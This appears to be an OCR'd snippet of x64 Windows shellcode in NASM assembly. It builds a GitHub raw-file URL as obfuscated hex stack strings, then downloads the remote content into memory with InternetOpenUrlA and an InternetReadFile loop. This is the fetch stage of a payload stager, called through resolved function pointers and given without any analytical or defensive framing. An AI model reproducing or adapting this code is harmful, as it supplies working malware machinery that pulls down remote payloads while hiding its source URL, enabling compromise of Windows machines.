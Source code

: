 ```nasm
    push rax
    mov rax, 0x646165682F736665
    push rax
    mov rax, 0x722F7761722F7261
    push rax
    mov rax, 0x6461726568747265
    push rax
    mov rax, 0x646E752F6D337473
    push rax
    mov rax, 0x79737433672F6D6F
    push rax
    mov rax, 0x632E627568746967
    push rax
    mov rax, 0x2F2F3a7370747468
    push rax
    mov r8,rsp

;rtlmovememory
    mov rcx, rsi ; address for new memory region
    mov rdx, r8               ; source
    xor r8, r8
    mov r8d, 71                      ; size
    ;call RtlMoveMemory
    call r9

   add rsp, 88

 ; ---- InternetOpenUrlA ----
    mov rcx, rdi                     ; hInternet
    mov rdx, rsi                 ; lpszUrl
    xor r8d, r8d                       ; lpszHeaders
    xor r9d, r9d                       ; dwHeadersLength
    mov dword [rsp+0x20], 0x4000000    ; dwFlags
    mov qword [rsp+0x28],0             ; dwContext
    call r14
    add rsp, 0x28
    push rax                       ; hUrl
    mov rsi, [rsp]                 ; hUrl handle for closing

xor rbx, rbx
read_loop:
    ; ---- InternetReadFile ----
    mov rcx, [rsp]                   ; HINTERNET hUrl
    mov rdx, [r15+rbx]                  ; LPVOID lpBuffer
    mov r8d, 4096                     ; DWORD dwNumberOfBytesToRead
    lea r9, dword [rsp+0x40]               ; LPDWORD lpdwNumberOfBytesRead
    xor rax, rax
    call r13
    test eax, eax                    ; Check if InternetReadFile succeeded
    je read_done
    
    mov ecx, dword [rsp+0x40]        ; Bytes read THIS iteration
    test ecx, ecx                    ; Check if 0 bytes (EOF)
    jz read_done
    
    add rbx, rcx                     ; Accumulate total bytes
    jmp read_loop
    
read_done:
    mov [rsp-0x50], ebx              ; Store total bytes downloaded
; ---- Close handles ----
    mov rcx, rsi ;hUrl
    call r12
```